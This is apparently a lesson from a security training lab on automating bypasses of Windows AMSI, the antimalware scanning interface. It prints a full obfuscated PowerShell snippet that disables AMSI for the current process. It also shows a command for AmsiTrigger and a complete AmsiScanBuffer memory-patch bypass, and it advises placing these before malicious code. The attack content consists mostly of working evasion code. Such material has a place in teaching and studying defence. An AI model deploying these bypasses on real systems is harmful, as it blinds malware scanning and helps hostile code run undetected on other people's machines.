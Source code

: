 ## Automating AMSI Bypass for Fun and Profit

While it is preferred to use the previous methods shown in this room, attackers can use other automated tools to break AMSI signatures or compile a bypass.

---

### amsi.fail

The first automation tool we will look at is **amsi.fail**.

**amsi.fail** compiles and generates a PowerShell bypass from a collection of known bypasses. According to its documentation:

> "AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every snippet is obfuscated at runtime/request so that no generated output shares the same signatures."

Below is an example of an obfuscated PowerShell snippet from amsi.fail:

```powershell
$d=$null;$qcgcjblv=[$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).Runtime.InteropServices.Marshal]::AllocHGlobal((9076+7561-7561));$pkgzwpahfwntq="+('lwbj'+'cymh').NORmaliZe([CHar]([byTe]0x46)+[char](111)+[ChAR]([ByTE]0x72)+[chaR](109*73/73)+[ChAR]([ByTE]0x44)) -replace [char]([bytE]0x5c)+[Char](112*106/106)+[char]([bYte]0x7b)+[chAR]([BYtE]0x4d)+[CHAR](110+8-8)+[CHAr]([BytE]0x7d)";[Threading.Thread]::Sleep(1595);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$(('àmsí'+'Sess'+'íón').norMALiZE([CHaR](70*49/49)+[chAr](87+24)+[ChaR]([bytE]0x72)+[chAr](109)+[chAR](68+43-43)) -replace [CHAr](92)+[chAr]([byTe]0x70)+[CHAr]([bYTE]0x7b)+[cHAr](77*71/71)+[Char]([bYtE]0x6e)+[char](125+49-49))", "NonPublic,Static").SetValue($d, $null);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$([chAR]([byTe]0x61)+[Char](109+52-52)+[cHar](46+69)+[CHar]([byTe]0x69)+[CHAR]([BYTe]0x43)+[Char]([ByTe]0x6f)+[chAR](110)+[chaR](116*47/47)+[cHar](101)+[CHAR]([bYte]0x78)+[CHaR]([ByTE]0x74))", "NonPublic,Static").SetValue($null, [IntPtr]$qcgcjblv);
```

You can attach this bypass at the beginning of your malicious code as with previous bypasses, or run it in the same session before executing malicious code.

---

### AMSITrigger

**AMSITrigger** allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.

The syntax for using amsitrigger is relatively straightforward; you need to specify the file or URL and what format to scan the file. Below is an example of running amsitrigger:

```shell
C:\Users\Tryhackme\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
```

#### Example PowerShell Bypass

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer');
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Signatures are highlighted in red; you can break these signatures by encoding, obfuscating, etc.